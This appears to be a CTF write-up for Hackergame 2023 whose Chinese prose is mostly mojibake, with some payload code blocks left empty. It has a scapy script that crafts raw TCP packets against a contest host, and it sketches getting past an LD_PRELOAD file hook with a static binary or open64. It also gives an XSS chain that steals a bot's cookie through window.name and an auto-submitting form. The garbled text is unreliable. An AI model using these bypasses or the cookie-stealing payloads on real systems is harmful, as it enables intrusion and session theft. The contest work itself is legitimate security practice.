target_ip = "192.168.23.1"  # 替æ¢ä¸ºå®é™…çš„IP地å€
target_ip = "202.38.93.111"  # 替æ¢ä¸ºå®é™…çš„IP地å€
target_port = 18082  # HTTP通常使用端å£80

# 创建IPæ•°æ®åŒ…，包å«è‡ªå®šä¹‰é€‰é¡¹
ip = IP(dst=target_ip, options=custom_ip_option)

# 创建TCPæ•°æ®åŒ…
tcp_syn = TCP(sport=RandShort(), dport=target_port, flags="S")

# æ„建整个数æ®åŒ…
packet = ip/tcp_syn  

# å‘é€æ•°æ®åŒ…并æ¥æ”¶ç¬¬ä¸€ä¸ªå“应
syn_ack = sr1(packet, timeout=3)

print(syn_ack)

# 如æœæ”¶åˆ°SYN-ACK，å‘é€ACK包
if syn_ack:  # and syn_ack[TCP].flags == "SA"
    # 创建TCP层，å‘é€ACK包
    print('SYN_ACK!')
    tcp_ack = TCP(sport=syn_ack[TCP].dport, dport=target_port, flags="A", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1)
    sr1(ip / tcp_ack, timeout=3)
    print('ACK!')

    # 创建HTTP GET请求的载è·
    payload = """POST / HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 100

114514:MiaoTonyIsWatchingYou
""".format(target_ip)
    # å‘é€HTTP GET请求，并等待å“应
    response = sr1(ip / TCP(sport=syn_ack[TCP].dport, dport=target_port, flags="PA", seq=syn_ack[TCP].ack, ack=syn_ack[TCP].seq + 1) / payload, timeout=3)
    if response:
        response.show()
    else:
        print("No response received.")
else:
    print("No SYN-ACK received.")
```


è¿”å›åŒ…里拿到 flag


å正需è¦å¤šè¯•å‡ æ¬¡ï¼Œå¶å°”还å¯èƒ½ä¼šè¢«ä¸­é—´è·¯ç”±å™¨ç»™ä¸¢åŒ…了


***See also:***

[Raw Socket使用总结](https://cs.pynote.net/net/202205161/)

[scapyå®ç°tcp三次æ¡æ‰‹å¹¶å‘é€http请求](https://blog.csdn.net/qq_43402663/article/details/122755489)

> 在使用Pyhon scapy 库æ„造TCP时，é­é‡åˆ°ç³»ç»Ÿåº•å±‚å‘é€çš„rst包，导致三次æ¡æ‰‹æ— æ³•å»ºç«‹æƒ…况。
>
> Linux 下 `iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP` å¯ä»¥å¹²æ‰ç³»ç»Ÿrst包干扰。
>
> windows 将自带防ç«å¢™æ‰“å¼€å，系统自å‘rst包消失了 
>
> Via https://blog.csdn.net/weixin_44704374/article/details/103492578

https://docs.python.org/zh-cn/3/library/socket.html


## 为什么è¦æ‰“å¼€ /flag 😡

### LD_PRELOAD, love!

ä¹‹å‰ `LD_PRELOAD` 一般都是拿æ¥ç»•è¿‡ PHP disable_functions 的，这里å过æ¥äº†ï¼Œå“ˆå“ˆ

`LD_PRELOAD` 用æ¥æ˜¾å¼æŒ‡å®šåŠ è½½çš„动æ€é“¾æ¥åº“，那咱直æ¥é™æ€ç¼–译就好了嘛。

exp: 写个读 `/flag` çš„ C语言程åº

```c
#include <stdio.h>

int main() {
    FILE *file;
    char buffer[1024];

    // 打开文件
    file = fopen("/tmp/1", "r");

    if (file == NULL) {
        perror("无法打开文件");
        return 1;
    }

    // 读å–文件内容并输出
    while (fgets(buffer, sizeof(buffer), file) != NULL) {
        printf("%s", buffer);
    }

    // 关闭文件
    fclose(file);

    return 0;
}
```

```bash
gcc -static -o main main.c
```



当然了，这题他 hook 的脚本里虽然试图拦截一系列文件和进程创建的系统调用，但它并未拦截所有å¯èƒ½çš„系统调用。例如，`fopen64`ã€`open64` ç­‰ 64 ä½ç‰ˆæœ¬çš„文件æ“作函数并没有被拦截。如æœå­˜åœ¨è¿™æ ·çš„系统调用，它们å¯èƒ½ä¼šç»•è¿‡è¿™ä¸ªåº“的检查。 

äºæ˜¯ä¹Ÿå¯ä»¥ä½¿ç”¨ `open64` æ¥æ‰“å¼€ `/flag` 文件æ¥åšã€‚


### 都是 seccomp 的错

~~æ€ä¹ˆé¢˜ç›®è„šæœ¬æ˜¯ rust 写的~~

> Seccomp是Linux内核的一个安全功能，用äºé™åˆ¶è¿›ç¨‹å¯¹ç³»ç»Ÿè°ƒç”¨çš„访问。Seccompå…许你指定一个系统调用过滤器规则，以æ§åˆ¶è¿›ç¨‹èƒ½å¤Ÿè°ƒç”¨å“ªäº›ç³»ç»Ÿè°ƒç”¨ã€‚Seccomp-unotify是一ç§ç‰¹å®šäºLinuxçš„Seccomp模å¼ï¼Œç”¨äºç›‘æ§å’Œç­›é€‰ä½¿ç”¨`unotify`（用户级通知）进行的系统调用。这个模å¼æ—¨åœ¨å¢å¼ºç³»ç»Ÿçš„安全性。
>
> Via ChatGPT

> 这段 Rust 代ç å®ç°äº†ä¸€ä¸ªå®‰å…¨ç›‘管程åºï¼Œåˆ©ç”¨ Linux çš„ `seccomp` 功能æ¥æ§åˆ¶ä¸€ä¸ªå­è¿›ç¨‹å¯ä»¥æ‰§è¡Œçš„系统调用。代ç ä¸­åŒ…å«äº†å¤šä¸ªæ¨¡å—和函数，用äºè®¾ç½®å’Œå¤„ç†ç³»ç»Ÿè°ƒç”¨çš„过滤和通知。以下是对代ç å…³é”®éƒ¨åˆ†çš„解释：
>
> ### 导入和结æ„定义
>
> - 导入了一系列的 Rust 标准库和第三方库，用äºå¤„ç†æ–‡ä»¶ã€çº¿ç¨‹ã€ç½‘络套æ¥å­—ã€æ—¥å¿—等。
> - `libseccomp` 库被用æ¥ä¸ Linux çš„ `seccomp` 功能交互，它å…许é™åˆ¶ç¨‹åºå¯ä»¥æ‰§è¡Œçš„系统调用。
>
> ### `SocketPair` 结æ„
>
> - 用äºåœ¨å­è¿›ç¨‹å’Œçˆ¶è¿›ç¨‹ä¹‹é—´ä¼ é€’文件æ述符（fd），通过使用 `sendmsg`/`recvmsg` 系统调用和 `SCM_RIGHTS` æ§åˆ¶æ¶ˆæ¯ã€‚
>
> ### `UNotifyEventRequest` 结æ„
>
> - å°è£…了 `libseccomp` çš„ `ScmpNotifReq`，这是一个æ¥è‡ª `seccomp` å­ç³»ç»Ÿçš„通知请求，包å«äº†å…³äºç³»ç»Ÿè°ƒç”¨çš„请求信æ¯ã€‚
>
> ### `RemoteProcess` 结æ„
>
> - å…许监管程åºä¸è¿œç¨‹è¿›ç¨‹ï¼ˆå­è¿›ç¨‹ï¼‰äº¤äº’，例如，通过 `process_vm_readv` 读å–远程进程的内存。
>
> ### `Supervisor` 结æ„
>
> - 核心结æ„，用äºåˆ›å»ºå’Œç®¡ç† `seccomp` 过滤器，设置系统调用处ç†å‡½æ•°ï¼Œå¹¶æ‰§è¡Œå’Œç›‘æ§å­è¿›ç¨‹ã€‚
> - `insert_handler` 方法用äºä¸ºç‰¹å®šçš„系统调用添加用户自定义的处ç†å‡½æ•°ã€‚
> - `exec` 方法用äºåˆ›å»ºå­è¿›ç¨‹ï¼Œå¹¶åº”用 `seccomp` 过滤器。
> - `wait` 方法用äºç­‰å¾…å­è¿›ç¨‹ç»“æŸï¼Œå¹¶æ¸…ç†ç›‘管线程和线程池。
>
> ### `opening_handler` 函数
>
> - 是一个示例的用户定义的处ç†å‡½æ•°ï¼Œç”¨äºå¤„ç† `open` å’Œ `openat` 系统调用。
> - 它读å–远程进程的内存æ¥è·å–文件路径，如æœè·¯å¾„ä¸­åŒ…å« "flag" 字符串，则打开一个虚å‡çš„ "flag" 文件并返å›æ–°çš„文件æ述符。
>
> ### `main` 函数
>
> - 程åºçš„å…¥å£ç‚¹ï¼Œè®¾ç½®æ—¥å¿—，安装 panic hook 以便在线程崩溃时终止程åºã€‚
> - 解æ命令行å‚数以è·å–è¦æ‰§è¡Œçš„å­ç¨‹åºã€‚
> - 创建 `Supervisor` 对象，æ’入处ç†å‡½æ•°ï¼Œæ‰§è¡Œå­ç¨‹åºï¼Œå¹¶ç­‰å¾…其完æˆã€‚
>
> 整体æ¥çœ‹ï¼Œè¿™æ®µä»£ç æ˜¯ä¸€ä¸ªåˆ©ç”¨ `seccomp` 创建安全沙箱ç¯å¢ƒçš„高级框æ¶ã€‚它å¯ä»¥ç›‘æ§å’Œæ§åˆ¶å­è¿›ç¨‹çš„系统调用行为，确ä¿å­è¿›ç¨‹åªèƒ½è°ƒç”¨ç™½åå•ä¸Šçš„系统调用，并对特定系统调用进行自定义处ç†ã€‚这在è¿è¡Œä¸å¯ä¿¡ä»£ç æˆ–需è¦é™åˆ¶å­è¿›ç¨‹è¡Œä¸ºçš„场景中é常有用。


[PWN题中常è§çš„seccomp绕过方法](http:/https://www.anquanke.com/post/id/219077)

ç„了眼基本上绕过 seccomp 都是用 ORW，比如用 `openat` `readv` `writev` 之类的å»ç»•è¿‡è¢« ban çš„ syscall

但这题里 `open` å’Œ `openat` 都被处ç†äº†ï¼Œçœ‹èµ·æ¥ä¸è¡Œ


试了下 link 建立个链æ¥ï¼Œä½†æ˜¯å‘ç°ä¹Ÿä¸è¡Œ

> [Seccomp机制ä¸seccomp notify介ç»](https://just4coding.com/2022/04/03/seccomp/)
>
> 在`5.0`版本内核åˆåŠ å…¥äº†`seccomp-unotify`机制，`5.9`版本åˆåšäº†ç‰¹æ€§å¢å¼ºã€‚`seccomp-BPF`模å¼å¯¹`系统调用`çš„è£å†³æ˜¯ç”±è¿‡æ»¤ç¨‹åºè‡ªå·±å®Œæˆçš„，而`seccomp-unotify`机制能够将è£å†³æƒè½¬ç§»ç»™å¦ä¸€ä¸ªç”¨æˆ·æ€è¿›ç¨‹ã€‚
>
> [The Seccomp Notifier - New Frontiers in Unprivileged Container Development](https://brauner.io/2020/07/23/seccomp-notify.html)
>
> 我们将加载过滤程åºçš„进程å«åš`target`, æ¥æ”¶é€šçŸ¥çš„进程å«åš`supervisor`。在这个模å¼ä¸­ï¼Œ`supervisor`ä¸ä»…对是å¦å…许`系统调用`能够åšå‡ºè£å†³ï¼Œå®ƒè¿˜å¯ä»¥ä»£æ›¿`target`进程完æˆè¿™ä¸ª`系统调用`的行为。这大大扩大了`seccomp`机制的应用范围。上边我们介ç»è¿‡ï¼Œ`Seccomp-BPF`模å¼åªèƒ½æ£€æµ‹ç³»ç»Ÿè°ƒç”¨çš„å‚数，ä¸èƒ½è§£å¼•ç”¨æŒ‡é’ˆã€‚而这个`unotify`模å¼åˆ™è¿˜å¯ä»¥å»æŸ¥çœ‹æŒ‡é’ˆæ‰€æŒ‡å‘的内存。

äºæ˜¯è€ƒè™‘利用 seccomp-unotify å°†æ§åˆ¶æƒäº¤ç»™ç”¨æˆ·æ€ç¨‹åº

> 早期的seccomp采用prctlæ¥å®ç°ï¼Œåæ¥seccomp被å°è£…æˆlibseccomp库。
>
> 早期的libseccomp安装
>
> ```
> sudo apt install libseccomp-dev libseccomp2 seccomp
> ```
>
> ç°åœ¨å·²ç»å…¨éƒ½æ•´åˆæˆäº†`seccomp`
>
> ```
> find /usr/include/ -name seccomp.h
> /usr/include/seccomp.h
> /usr/include/linux/seccomp.h
> ```
>
> 注æ„区分，`linux`目录下的`seccomp.h`是åŸå§‹ç‰ˆæœ¬ã€‚而`linux`目录外的`seccomp.h`则是libseccomp。
>
> *Via http://wh4lter.icu/2020/04/20/seccomp/*

[ã€äº‘安全系列】让Seccomp“动“起æ¥Â­Â­--SeccompNotify](https://zhuanlan.zhihu.com/p/580777000)

编译的时候è¦åœ¨ **最åé¢** 加 `-lseccomp`

看了下这个 supervisor 都是通过读å–内存æ¥è·å–输入的å‚数，进而判断 path 等内容，然åå»çœŸæ­£æ‰§è¡Œ

所以考虑是用 race condition ç«äº‰å»æ”¹æ‰è·å–到的内存里的内容

*~~（到了比赛最å一天通宵到早上了，å®åœ¨å¤ªå›°äº†å»å‘¼å‘¼äº†ï¼‰~~*

åé¢æ¥è¡¥ï¼Œå’•å’•å’•


## 微积分计算å°ç»ƒä¹  2.0

微积分的页é¢æ²¡ç”¨çš„，é‡ç‚¹æ˜¯ `/result` 页é¢

å°è¯•æ„造 payload 

```
" + document["cookie"] +"
```

æœåŠ¡ç«¯ä¼šç›´æ¥æŠŠç”¨æˆ·è¾“入拼æ¥åœ¨ `你留下的评论：` å’Œ `");` 之间，äºæ˜¯å¯ä»¥æ’入自己的 js 语å¥ã€‚


但是这里过滤了一堆关键字符，而且 `()` 也给过滤了，ä¸èƒ½é—­åˆæ‰ `)` 也ä¸èƒ½æ‰§è¡Œè‡ªå·±çš„命令，é常难å—ï¼ï¼ï¼

而且因为ä¸èƒ½ä¸Šå¤–网，åªèƒ½è€ƒè™‘利用自己的 session 把 bot é‚£è¾¹çš„ä¿¡æ¯ POST 评论的方å¼å›å¸¦

å…ˆè¦è®¿é—® `/?token=114514%3AMiaoTonyxxx` 把自己的 cookie 设置上，然å POST å›å¸¦ï¼Œæµ‹è¯•ä¸€ä¸‹

```html
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
    
    <form id="miaotony" action="http://web/result" method="post">
        <textarea name="comment" id="comment">meow//</textarea>
    </form>
    <script>
        window.onload = function () {
            document.forms["miaotony"].submit();
        };
    </script>
</body>
</html>
```


在本地访问 `/result` å‘ç°æˆåŠŸè®¾ç½®ï¼


然å喵喵åå¤è¯•äº†è€åŠå¤©ï¼Œæœ¬æ¥çš„æ€è·¯æ˜¯åˆ©ç”¨ iframe 或者 window.open 在一个新窗å£é‡ŒæŠŠ cookie 渲染到界é¢ä¸Šï¼Œç„¶å通过æŸç§äº¤äº’æ–¹å¼/中间途径å»æŠŠé¡µé¢ä¸Šæ¸²æŸ“出æ¥çš„ cookie 读å›æ¥ï¼Œåœ¨è‡ªå·±çš„页é¢ä¸Š CSRF çš„æ–¹å¼ POST 到评论

但是å‘ç°è¿™æ ·éƒ½è¡Œä¸é€šï¼Œåªèƒ½æ¢ä¸€ç§æ€è·¯äº†

那就是全部请求在弹出的窗å£ä¸Šè¿›è¡Œï¼Œé‚£å°±è¿˜å¾—å»æ‰§è¡Œä»»æ„çš„ js

[MDN: Window：open() 方法](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/open) 

[w3schools: Window name](https://www.w3schools.com/jsref/prop_win_name.asp)

å‘ç° `open(url, target)` 这个 `target` 有点æ„æ€ï¼Œ**他在两个页é¢é—´å…±äº«çš„，å¯ä»¥ä½œä¸ºä¸­é—´å˜é‡æ¥ä¼ å€¼ï¼**

> `target`å¯é€‰
>
> - : 一个ä¸å«ç©ºæ ¼çš„字符串，用äºæŒ‡å®šåŠ è½½èµ„æºçš„æµè§ˆä¸Šä¸‹æ–‡çš„[å称](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/name)。如æœè¯¥å称无法识别ç°æœ‰çš„上下文，则会创建一个新的上下文，并赋予指定的å称。还å¯ä»¥ä½¿ç”¨ç‰¹æ®Šçš„ [`target` 关键字](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/a#target)：`_self`ã€`_blank`ã€`_parent` å’Œ `_top`。
>
> 该å称å¯ç”¨ä½œ [`<a>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/a#target) 或 [`<form>`](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/form#target) 元素的 `target` å±æ€§ã€‚  

先打个 payload 过å»ï¼Œç„¶å先给 name 也就是 window.name 赋值

```
"+name+"
```

然å借助这个 name，因为会直æ¥å†™å…¥åˆ° html 里，äºæ˜¯å¯ä»¥æ’入任æ„æ¶æ„çš„ js，当然动æ€å†™å…¥åˆ° html 里的 script 标签ä¸ä¼šæ‰§è¡Œï¼Œéœ€è¦ç”¨ img svg è¿™ç§é€šè¿‡æŠ¥é”™ç­‰é€”径æ¥æ‰§è¡Œ js


å¯è¡Œï¼

äºæ˜¯æ„造 payload

```html

```

> 这里喵喵气死了，æ€ä¹ˆé¡µé¢ä¸Šæœ‰ä¸¤ä¸ª id 为 comment 的元素，直æ¥ç”¨ `document.getElementById('comment')` åªèƒ½è¿”å›ä¸Šé¢çš„那个 p 标签，äºæ˜¯è¯•äº†è€åŠå¤©å‘ç°æ€ä¹ˆæ²¡å€¼è¿”å›ï¼Œå•Šå•Šå•Šå•Šå•Šï¼ï¼ï¼
>
> 最åæ‰å‘ç°æ€ä¹ˆæ²¡ç»™ form 里的 comment 赋值……

`btoa` 是 base64 一下防止出ç°å¥‡å¦™å­—符被过滤了，åé¢å‘ç°æœç„¶ï¼ˆ

`slice` 是因为长度é™åˆ¶

然å 自己的 html

```html
<!DOCTYPE html>
<html lang="en">

<head>
</head>

<body>
    
    <script>
        var payload = ""
        var w = window.open("http://web/result", payload);
        console.log(w);
    </script>
</body>

</html>
EOF
```

需è¦å¤šæ¬¡åå¤æ‰“，先打 POST `"+name+"`，然å让 bot 访问，然å自己 GET æ‹¿ flag 一部分，å†æ”¹ slice åå¤

ä¾æ¬¡å¾—到

```
ZmxhZz1mbGFnJTdCeDU1X3N0a
WxsX2FsaXZlJTI2JTNEJTNFXy
UzQytfYjllZGI1Mjc2NiU3RA=
```


---

BTW，查资料的时候å‘ç°ä¸€äº›æœ‰æ„æ€çš„

- [Penetration testing & window.opener — XSS vectors part 2](https://medium.com/tsscyber/penetration-testing-window-opener-xss-vectors-part-2-7810ebfccc1d)

在新开页é¢é‡Œè°ƒç”¨ opener.location 设置æˆä¸€ä¸ªæ–°çš„带 hash 的值，会使åŸæ¥çš„页é¢è·³è½¬åˆ°æ–°çš„地å€å»


- [Security: window.open(url, name) is vulnerable to XSS with "name" collision](https://www.w3.org/Bugs/Public/show_bug.cgi?id=29107)    

演示 demo: http://test.attacker-domain.com/sopresearch/windowopen.html

> This is testing window.open(url, "victimFrame") with a specific target  iframe inside of the victim's page, and the victim is expecting the URL  opened in the target frame. Unfortunately, if the victim page is framed  with the same name (e.g. "victimFrame") plus a javascript URL, the  window.open call would navigate the victim page itself instead of its  frame and the JavaScript is going to execute in the victim page's domain
>
> 也就是说如æœè¿™ä¸ª name 冲çªè€Œä¸”正好在外层 window 上有的è¯ï¼Œåœ¨ iframe 里é¢æ‰“开一个 `javascript:xxx` URL 是会在父框æ¶ä¸Šæ‰§è¡Œ js çš„


- [AwesomeXSS](https://github.com/s0md3v/AwesomeXSS?tab=readme-ov-file#awesomexss) å„ç§å¥‡å¦™çš„ XSS payload

- [xss的一些绕过](https://yuaneu.ro/archives/xss.html)

- [ä»ä¸€ä¸ªç»•è¿‡é•¿åº¦é™åˆ¶çš„ XSS 中，我们能学到什么？](https://www.tr0y.wang/2020/08/18/IDN/)

  讲的是å„ç§ Unicode 绕过，比如通过 `â‘­.₨` è¿™ç§åŸŸåæ¥ç»•è¿‡é•¿åº¦é™åˆ¶

  查找 Unicode 网站：https://www.compart.com/en/unicode/ 

  Fuzz 工具：[UnicodeToy](https://github.com/h13t0ry/UnicodeToy?tab=readme-ov-file#unicodetoy), Unicode fuzzer for various purposes

- [XSS跨站脚本(XSS常用payloadåŠç»•è¿‡æŠ€å·§)](https://www.cnblogs.com/snad/p/17247840.html)


## 异星歧途

游æˆæºä»£ç åœ¨ GitHub å¼€æº: https://github.com/Anuken/Mindustry


4个处ç†å™¨ï¼Œçœ‹èµ·æ¥å°±å„ç§é€»è¾‘电路？数字电路类似物

感觉界é¢æœ‰ç‚¹åƒ Scratch 那个图形化编程语言，ä¸è¿‡å¯ä»¥ç‚¹å‡»ç¼–辑，然å导出逻辑到剪贴æ¿

*（但是还ä¸å¦‚结åˆç€ç•Œé¢ä¸Šçš„æ¥çœ‹*

```
sensor s1 switch1 @enabled
sensor s2 switch2 @enabled
sensor s3 switch3 @enabled
sensor s4 switch4 @enabled
sensor s5 switch5 @enabled
sensor s6 switch6 @enabled
sensor s7 switch7 @enabled
sensor s8 switch8 @enabled
jump 18 equal s1 false
jump 18 equal s2 true
jump 18 equal s3 false
jump 18 equal s4 true
jump 18 equal s5 true
jump 18 equal s6 false
jump 18 equal s7 true
jump 18 equal s8 false
control enabled generator1 1 0 0 0
end
control enabled generator1 0 0 0 0
end


sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
op shl t sw1 7
set number t
op shl t sw2 6
op add number number t
op shl t sw3 5
op add number number t
op shl t sw4 4
op add number number t
op shl t sw5 3
op add number number t
op shl t sw6 2
op add number number t
op shl t sw7 1
op add number number t
set t sw8
op add number number t
set en 0
set i 0
jump 33 greaterThanEq i 16
op pow fl0 i 2
jump 31 notEqual fl0 number
set en 1
jump 33 always x false
op add i i 1
jump 26 always x false
op equal fl1 0 sw1
op equal fl2 0 sw6
op or fl3 fl1 fl2
jump 38 equal fl3 0
set en 0
control enabled generator1 en 0 0 0
control enabled panel1 en 0 0 0
end


set links @links
set thisLink 0
getlink currentTurret thisLink
radar player any any distance currentTurret 1 me
sensor x me @shootX
sensor y me @shootY
control shoot currentTurret x y 0 0
op add thisLink thisLink 1
jump 2 lessThan thisLink links
end


sensor sw1 switch1 @enabled
sensor sw2 switch2 @enabled
sensor sw3 switch3 @enabled
sensor sw4 switch4 @enabled
sensor sw5 switch5 @enabled
sensor sw6 switch6 @enabled
sensor sw7 switch7 @enabled
sensor sw8 switch8 @enabled
sensor sw9 switch9 @enabled
control enabled conveyor2 sw1 0 0 0
control enabled gate1 sw2 0 0 0
op equal nsw3 sw3 0
control enabled reactor1 nsw3 0 0 0
control enabled reactor2 nsw3 0 0 0
control enabled conduit1 sw4 0 0 0
control enabled conduit2 sw4 0 0 0
control enabled mixer1 sw5 0 0 0
control enabled extractor1 sw6 0 0 0
control enabled meltdown1 sw7 0 0 0
control enabled meltdown2 sw7 0 0 0
op equal result sw8 sw9
jump 28 equal result true
control enabled mixer1 0 0 0 0
control enabled conduit2 1 0 0 0
control enabled reactor1 1 0 0 0
control enabled reactor2 1 0 0 0
control enabled conveyor2 1 0 0 0
wait 5
end


sensor t switch1 @enabled
control enabled source1 t 0 0 0
sensor t switch2 @enabled
control enabled source2 t 0 0 0
sensor t switch3 @enabled
control enabled source3 t 0 0 0
sensor t switch4 @enabled
control enabled source4 t 0 0 0
sensor t switch5 @enabled
control enabled source5 t 0 0 0
sensor t switch6 @enabled
control enabled source6 t 0 0 0
sensor t switch7 @enabled
control enabled source7 t 0 0 0
sensor t switch8 @enabled
control enabled source8 t 0 0 0
```

 [Mindustry Wiki: Logic - Glossary](https://mindustrygame.github.io/wiki/logic/1-glossary/)

手动解一下

```python
# Stage 1
# 10100101

# Stage 2 伪代ç 
number = sw1 << 7 + sw2 << 6 + sw3 << 5 + ... + sw8
i = en = 0
while True:
    if i >= 16:
# AAA:
        fl1 = sw1 == 0
        fl2 = sw6 == 0
        fl3 = fl1 | fl2
        if fl3 == 0:
            generator1 = en
            panel1 = en
        else:
            en = 0
    else:
        fl0 = i ** 2
        if fl0 != number:
            i += 1
        else:
            en = 1
            # goto AAA

# Stage 2
# 12345678
# 1....1..
# 14*14
# 11000100

# Stage 3
# 12345678
# 10001100

# Stage 4
# 01110111


# 10100101110001001000110001110111
```

è¦ä¿è¯å†·å´æ°´å’Œå†·å´æ¶²æ­£å¸¸å·¥ä½œï¼Œåå‘溢æµé—¨ä¸èƒ½å…³ï¼Œä¸ç„¶æ–™è¿›ä¸æ¥

最åæˆåŠŸç¨³å®šè¿è¡Œ


`flag{B34WarE_0f_#xp1osi0N_xxxxx}`


## å°ç»“

**完结撒花ï¼**

呜呜，å¯èƒ½æ˜¯æœ€å一年打 HG 啦，😹è¦è·‘路啦ï¼

~~本æ¥ä¸€å †äº‹æƒ…说ä¸çœ‹çš„æ€ä¹ˆåˆæ¥çœ‹é¢˜äº†~~

今年 rk 40 / 2386，应该比往年高（ä¹





今年感觉题目比往年整体简å•ï¼ŒåŸºç¡€çš„题目比较多，分差也ä¸å¤§ï¼Œæ¦œä¸Šç„了眼都是群å‹ï¼Œä»°æœ›.jpg

甚至没打过 CTF 的群å‹éƒ½èƒ½æŠŠå–µå–µè¶…äº†ï¼Œéœ‡æƒŠï¼ *（当然 hackergame å’Œ CTF 还是有挺大区别的*

这个时间段事情挺多，基本åªæœ‰å‡ ä¸ªæ™šä¸ŠæŠ½æ—¶é—´æ¥çœ‹çœ‹é¢˜ï¼Œæœ€å一晚上还通宵到早上了，太困了，呼呼~

说æ¥ä»Šå¹´é¢˜ç›®çš„整体顺åºä¹Ÿæ˜¯æŒ‰ç…§æ¢¯åº¦æ¥è®¾è®¡çš„，åé¢å‡ é¢˜ä¸»è¦æ˜¯ mathã€binaryã€blockchain 的题目，难度ç¨å¾®å¤§ä¸€äº›ï¼Œä¸è¿‡æ—¶é—´æœ‰é™ï¼Œæœ¬æ¥æ¯”赛中还想åšåš math 题的，但是å‘ç°è¿™å‘¨è¿‡å¾—也太快了æ€ä¹ˆæ„Ÿè§‰æ¯”赛刚开始就è¦ç»“æŸäº†â€¦â€¦

**总之，和往年一样，比赛过程中也学到了许多ï¼**


---

å¦å¤–，今年继续以 ~~你寄~~ 校队的å义拉了ååŠ

ä¸è¿‡å¯èƒ½å› ä¸ºå’±åˆšåŠå®ŒæŒç»­ä¸€ä¸ªæœˆçš„新生赛，大家åšå了没啥人æ¥ç© hackergame 了*（摊手*



幕å工作人员都辛苦了ï¼

这也是喵喵最å一年å‚ä¸ååŠè”络对æ¥äº†æ，希望之å还有学弟学妹æ¥æ¥æ‰‹ï¼ŒğŸ±çœŸè¦è·‘路啦ï¼

喵呜ï¼


---

å¦å¤–，本文更详细的版本请挪步 [MiaoTony çš„åšå®¢](https://miaotony.xyz/2023/11/05/CTF_2023Hackergame/?utm_source=github_hackergame2023)，如有更新以åšå®¢å†…容为准，仓库内的版本å¯èƒ½ä¸å†ç»´æŠ¤äº†ã€‚

**最å，欢è¿æ¥ [喵喵的åšå®¢](https://miaotony.xyz/?utm_source=github_hackergame2023) 逛逛喵~**
